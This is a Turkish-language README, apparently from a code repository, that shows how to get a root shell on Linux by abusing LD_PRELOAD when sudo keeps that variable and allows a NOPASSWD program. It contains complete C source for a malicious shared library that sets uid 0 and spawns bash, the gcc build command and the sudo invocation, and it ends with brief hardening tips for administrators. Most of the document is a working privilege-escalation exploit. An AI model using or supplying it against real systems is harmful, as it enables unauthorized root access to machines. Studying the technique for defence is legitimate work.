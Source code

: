 # 📌 LD_PRELOAD ile Root Yetkili Shell Elde Etme

Bu proje, `LD_PRELOAD` ortam değişkeni kullanılarak belirli `sudo` yetkilerine sahip bir kullanıcı üzerinden root yetkili bir kabuk (shell) elde etmenin nasıl mümkün olduğunu gösterir.

## 📚 Açıklama

Eğer `sudo` yapılandırmasında `LD_PRELOAD` ortam değişkenine izin veriliyorsa (örneğin: `env_keep+=LD_PRELOAD`) ve kullanıcıya bazı programları `root` olarak `NOPASSWD` seçeneğiyle çalıştırma yetkisi tanınmışsa, özel yazılmış bir `.so` kütüphanesi ile root shell açmak mümkündür.

Örnek `sudo -l` çıktısı:

```bash
Varsayılanlar bu sistemde user için şöyle ayarlanmış:
    env_reset, env_keep+=LD_PRELOAD

Kullanıcı user bu sistemde şu komutları çalıştırabilir:
    (root) NOPASSWD: /usr/bin/nmap
     ...
     ...
```

## 🛠️ Kurulum ve Kullanım

### 1. C Kütüphanesini Yazın

`library.c` adında bir dosya oluşturun ve aşağıdaki kodu ekleyin:

```bash
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");  
    setgid(0);               
    setuid(0);               
    system("/bin/bash");     
}
```

### 2. Derleyin

Dosyayı `.so` (paylaşımlı kütüphane) formatında derlemek için şu komutu çalıştırın:

```bash
gcc -fPIC -shared -o /tmp/library.so library.c -nostartfiles
```

### 3. Root Yetkili Shell Açın

Root olarak çalıştırmanıza izin verilen bir programı `LD_PRELOAD` ile şu şekilde başlatın:

```bash
sudo LD_PRELOAD=/tmp/library.so /usr/bin/nmap
```

Eğer başarılıysa, `#` işaretiyle başlayan bir root shell açılmış olacaktır.

## 🔒 Güvenlik Önerileri

Sistem yöneticileri için:

- `sudoers` dosyasında `env_keep+=LD_PRELOAD` ifadesinden kaçınılmalıdır.
- `NOPASSWD` sadece gerçekten gerekli komutlarla sınırlandırılmalıdır.
- Her zaman "en az ayrıcalık" prensibi uygulanmalıdır.

